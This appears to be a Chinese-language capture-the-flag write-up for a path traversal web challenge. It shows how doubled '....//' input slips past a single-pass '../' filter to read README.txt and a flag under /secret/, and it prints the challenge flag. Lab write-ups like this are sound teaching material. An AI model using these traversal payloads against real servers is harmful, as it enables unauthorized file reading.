



---
date: 2026-10-29
slug: stitch-file-previewer
categories:
  - 路径遍历
---

# 史迪仔的文件预览器 — Writeup

> **题目类型**：Web — 目录穿越（Path Traversal）
>
> **题目地址**：`http://80-e887e1a6-2d07-4b5b-9e6e-5d3e06543451.challenge.ctfplus.cn/`
>
> **Flag**：`flag{1f0be3ba-b8f6-4a5a-9b05-c8d69e8769fd}`

---

## 题目概述

页面是一个"文件预览器"，输入文件名即可查看实验室资料。默认提供示例文件 `hello.txt`。


---

## 解题过程

### Step 1：查看默认文件

先访问默认的 `hello.txt`，内容如下：

```
Hello, ZeroG!
Welcome to PwnStars Cybersecurity Lab.
```

没有有用信息，只是普通的欢迎语。

### Step 2：查看源码，发现线索

右键查看页面源代码，在 HTML 底部发现一行注释：

```html
<!-- TODO: README.txt 后续需要整理 -->
```



这说明服务器上存在一个 `README.txt` 文件，但页面上没有直接暴露。

### Step 3：直接读取 README.txt — 失败

在文件名输入框中输入 `README.txt`，返回：

```
File not found.
```

说明 README.txt 不在当前可读目录中。

### Step 4：尝试目录穿越

既然文件不在当前目录，尝试使用 `../` 进行目录穿越：

```
../README.txt
```

仍然返回 `File not found.`，说明服务器对 `../` 进行了过滤（替换为空）。

### Step 5：绕过过滤 — 成功读取 README.txt

服务器只做了一次 `../` → 空的替换，可以利用双写绕过。输入：

```
....//README.txt
```

服务器将中间的 `../` 删除后，剩余字符重新拼成 `../README.txt`，成功读到文件内容：



```
Stitch File Preview System

Public files are stored in /files/.

For administrators:

Sensitive files are stored in /secret/.
```

README.txt 揭示了目录结构：

- 公开文件存储在 `/files/`
- **敏感文件存储在 `/secret/`**

### Step 6：读取 /secret/ 下的 flag

既然知道敏感文件在 `/secret/` 目录下，CTF 中常见的 flag 文件名就是 `flag.txt`。使用同样的绕过方式构造路径：

```
....//secret/flag.txt
```

成功拿到 flag：



```
flag{1f0be3ba-b8f6-4a5a-9b05-c8d69e8769fd}
```

---

## 解题思路总结

```
访问 hello.txt（无有用信息）
  → 查看源码，发现 HTML 注释提到 README.txt
    → 直接读 README.txt 失败（文件不在当前目录）
      → 尝试 ../ 目录穿越，失败（被过滤）
        → 用 ....// 双写绕过过滤，成功读取 README.txt
          → 发现敏感文件在 /secret/ 目录
            → ....//secret/flag.txt 读到 flag
```

### 漏洞原理

服务器对用户输入的 `file` 参数进行了简单的过滤 —— 将 `../` 替换为空字符串。但这个过滤**只执行一次**，攻击者可以通过双写 `....//` 来绕过：

```
输入:      ....//README.txt
过滤后:    ../README.txt    （中间的 ../ 被删除，两侧的 . 和 / 重新拼合）
```

### 关键知识点

| 知识点 | 说明 |
|--------|------|
| 查看源码 | HTML 注释中经常藏有线索 |
| 目录穿越 | 利用 `../` 跳出当前目录读取其他文件 |
| 过滤绕过 | 双写 `....//` 绕过单次 `../` 替换过滤 |
| 信息收集 | 利用已读到的文件内容（README.txt）获取目录结构信息 |
